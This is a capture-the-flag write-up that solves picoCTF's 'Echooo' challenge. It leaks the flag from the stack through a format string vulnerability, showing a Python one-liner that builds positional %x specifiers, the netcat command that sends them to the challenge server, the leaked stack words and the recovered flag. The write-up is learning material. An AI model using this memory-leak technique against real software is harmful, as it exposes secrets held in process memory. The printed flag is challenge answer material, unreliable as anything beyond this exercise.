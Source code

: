 # Echooo

This program prints any input you give it. Can you leak the flag? Connect with nc 2018shell.picoctf.com 46960.


## Solution
It took me a while to come up with this solution because I was also learning about format string vulnerabilities. I started by using [radare2](https://github.com/radareorg/radare2) in debug mode. I set a breakpoint after the user input and than I checked state of the stack. It took a bit of trial and error, but eventually I discovered that the flag was stored `27 words (32-bit words)` away. This Medium blog post, [Binary Exploitation: Format String Vulnerabilities](https://medium.com/swlh/binary-exploitation-format-string-vulnerabilities-70edd501c5be) helped me discover that I could get the " ith argument on the stack by using a special case format specifier".


```
printf("%10$x"); 
-> will print the tenth element next on the stack
```


I used a python one-liner to write the `input.txt` file.

```
python -c 'print(" ".join(["%"+str(i)+"$08x" for i in range(27, 27+16)]))' > input.txt
```

*Note: I manually added newlines in the input file to account for the 63 character buffer size*

```
%27$08x %28$08x %29$08x %30$08x %31$08x %32$08x %33$08x
%34$08x %35$08x %36$08x %37$08x %38$08x %39$08x %40$08x
%41$08x %42$08x
```

I piping this input into netcat results in:

```
$ cat input.txt | nc -w1 2018shell.picoctf.com 46960                                                                
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> 6f636970 7b465443 6d526f66 735f7434 6e695274 615f7347 445f6552
> 65476e61 73753072 6237615f 32613463 000a7d64 080487ab 00000001
> ff836014 ff83601c
> $
```
 Using `grep`, `sed`, and `tr` I cleaned up the output so that it could be passed as input to `bytes_to_ascii.py`.


### bytes_to_ascii.py
I wrote this script to transform the output from the stack into readable ascii. This required breaking the `32-bit` words into bytes, reversing the order of the bytes to account for [endianness](https://en.wikipedia.org/wiki/Endianness), and converting the hex to ascii characters.


#### Exploit
Just run the `get_flag.sh` script.

```
$ ./get_flag.sh 
picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}
```
